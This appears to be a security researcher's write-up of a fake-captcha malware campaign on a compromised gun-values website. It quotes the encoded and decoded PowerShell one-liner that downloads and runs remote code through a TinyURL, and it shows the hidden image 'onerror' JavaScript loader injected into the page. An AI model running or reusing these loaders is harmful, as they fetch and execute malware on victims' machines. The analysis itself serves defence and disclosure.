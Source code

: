 On `VictimHost`, Falcon showed this process chain:

```
explorer.exe → conhost.exe → cmd.exe /c powershell ...
```

The command line contained an encoded PowerShell payload:

```powershell
cmd /c powershell /ep bypass /e RwBlAHQALQBIAGUAbABwADsASQBuAHYAbwBrAGUALQBFAHgAcAByAGUAcwBzAGkAbwBuACAAKABJAG4AdgBvAGsAZQAtAFIAZQBzAHQATQBlAHQAaABvAGQAIAAnAGgAdAB0AHAAcwA6AC8ALwB0AGkAbgB5AHUAcgBsAC4AYwBvAG0ALwBtAHQAcgBjAGsAdAB4AG0AJwApAA== /W 1
```

When I decoded this Base64, I got:

```powershell
Invoke-Expression (Invoke-RestMethod 'https://tinyurl.com/mtrcktxm')
```

That TinyURL redirects to `taurinolands.top`.

<div class="callout callout-warning">
    <div class="callout-title">
        <span class="callout-icon"></span>
        Warning
    </div>
    <div class="callout-content">
        <strong>Malware Behaviors Detected</strong> Falcon also flagged behaviors consistent with malware execution: DNS lookups, HTTP/HTTPS connections, file writes (ZIP, EXE, OLE, PDF), WMI reconnaissance, scheduled task modification attempts, and injection activity. Falcon killed the process before the second stage ran fully.
    </div>
</div>

---

## My Independent Web Analysis

### 1. Capturing captcha.php

When I fetched `https://gunvalues.gundigest.com/captcha.php`, the HTML included a hidden `<img>` element:

```html
<img src="/files/img/logo.png"
     data-digest="...Base64..."
     onerror="(new Function(atob(this.dataset.digest)))();"
     style="visibility: hidden;">
```

I decoded the `data-digest` value and found JavaScript that dynamically injects a `<script>` tag pointing to `ajax.php`. This only runs if the image load fails — an evasion trick.

### 2. Triggering ajax.php

By blocking `logo.png` in DevTools, the loader fired and requested `ajax.php`. The response was a small script (~378 B). That suggested I was being filtered.
